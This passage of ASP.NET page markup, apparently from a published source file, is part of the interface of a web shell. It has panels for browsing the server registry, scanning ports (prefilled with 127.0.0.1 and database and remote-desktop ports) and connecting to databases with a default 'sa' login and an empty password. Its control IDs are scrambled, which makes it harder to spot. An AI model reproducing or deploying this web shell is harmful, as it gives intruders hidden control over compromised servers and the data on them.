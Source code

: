  </tr>
</table>
<div id="UHlA" visible="false" enableviewstate="false" runat="server">
<table width="100%" border="0" cellpadding="4" cellspacing="0" style="margin:10px 0;">
<tr align="center">
<td style="width:30%"></td>
<td align="left" style="width:40%"><pre id="Bin_Td_Res" runat="server"></pre></td>
<td style="width:30%"></td>
</tr>
</table>
</div>
</div>
<%--Reg--%>
<div id="kkHN" runat="server">
<p>Registry Path : <asp:TextBox id="qPdI" style="width:85%;margin:0 8px;" CssClass="input" runat="server"/><asp:Button ID="MoNA" runat="server" Text="Go" CssClass="bt" onclick="RAFL"/></p>
<table width="100%" border="0" cellpadding="0" cellspacing="0" style="margin:10px 0;">
<asp:Table ID="pLWD" runat="server" Width="100%" CellSpacing="0" >
<asp:TableRow CssClass="alt1"><asp:TableCell ColumnSpan="2" id="vyX"></asp:TableCell></asp:TableRow>
<asp:TableRow CssClass="head"><asp:TableCell Width="40%">Key</asp:TableCell><asp:TableCell Width="60%">Value</asp:TableCell></asp:TableRow>
</asp:Table>
</table>
</div>
<%--PortScan--%>
<div id="YwLB" runat="server">
<p>
IP : <asp:TextBox id="MdR" style="width:10%;margin:0 8px;" CssClass="input" runat="server" Text="127.0.0.1"/> Port : <asp:TextBox id="lOmX" style="width:40%;margin:0 8px;" CssClass="input" runat="server" Text="21,25,80,110,1433,1723,3306,3389,4899,5631,43958,65500"/> <asp:Button ID="CmUCh" runat="server" Text="Scan" CssClass="bt" OnClick="ELkQ"/>
</p>
<div id="GBYT" runat="server" visible="false" enableviewstate="false"></div>
</div>
<%--DataBase--%>
<div id="iDgmL" runat="server">
<p>ConnString : <asp:TextBox id="MasR" style="width:70%;margin:0 8px;" CssClass="input" runat="server"/><asp:DropDownList runat="server" CssClass="list" ID="WYmo" AutoPostBack="True" OnSelectedIndexChanged="zOVO" ><asp:ListItem></asp:ListItem><asp:ListItem Value="server=localhost;UID=sa;PWD=;database=master;Provider=SQLOLEDB">MSSQL</asp:ListItem><asp:ListItem Value="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=E:\database.mdb">ACCESS</asp:ListItem></asp:DropDownList><asp:Button ID="QcZPA" runat="server" Text="Go" CssClass="bt" OnClick="BGY"/></p>
<div id="dQIIF" runat="server">
<div id="irTU" runat="server"></div>
<div id="uXevN" runat="server">
Please select a database : <asp:DropDownList runat="server" ID="Pvf" AutoPostBack="True" OnSelectedIndexChanged="zOVO" CssClass="list"></asp:DropDownList>